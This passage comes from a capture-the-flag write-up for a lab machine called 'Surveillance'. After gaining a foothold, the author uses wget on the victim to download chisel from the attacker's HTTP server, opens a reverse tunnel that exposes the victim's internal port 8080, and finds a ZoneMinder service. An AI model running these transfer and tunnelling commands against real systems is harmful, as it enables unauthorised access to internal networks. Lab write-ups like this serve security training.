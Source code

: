 I will forward it to my machine with [chisel](https://github.com/jpillora/chisel):

## Transfer

In the attacker's machine:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In the victim's machine:

```bash
matthew@surveillance:~$ cd /tmp
matthew@surveillance:/tmp$ wget http://<YOUR IP>/chisel
```

## Port forwarding

In the attacker's machine:

```bash
❯ ./chisel server -p 1234 --reverse
2024/04/17 19:32:17 server: Reverse tunnelling enabled
2024/04/17 19:32:17 server: Fingerprint Jxtsiq9PliwT2OzxzND0lOoMiHcCBqwuSN8Q6i3q5cg=
2024/04/17 19:32:17 server: Listening on http://0.0.0.0:1234
2024/04/17 19:32:46 server: session#6: tun: proxy#R:8080=>8080: Listening
```

In the victim's machine:

```bash
matthew@surveillance:/tmp$ ./chisel client 10.10.14.114:1234 R:8080:127.0.0.1:8080
2024/04/17 17:32:45 client: Connecting to ws://10.10.14.114:1234
2024/04/17 17:32:46 client: Connected (Latency 94.27049ms)
```

## Enumeration

Enumerating the 8080 web service, we can see that it runs something called "zoneminder":

![Zoneminder](/assets/images/Surveillance/zoneminder_cms.png)
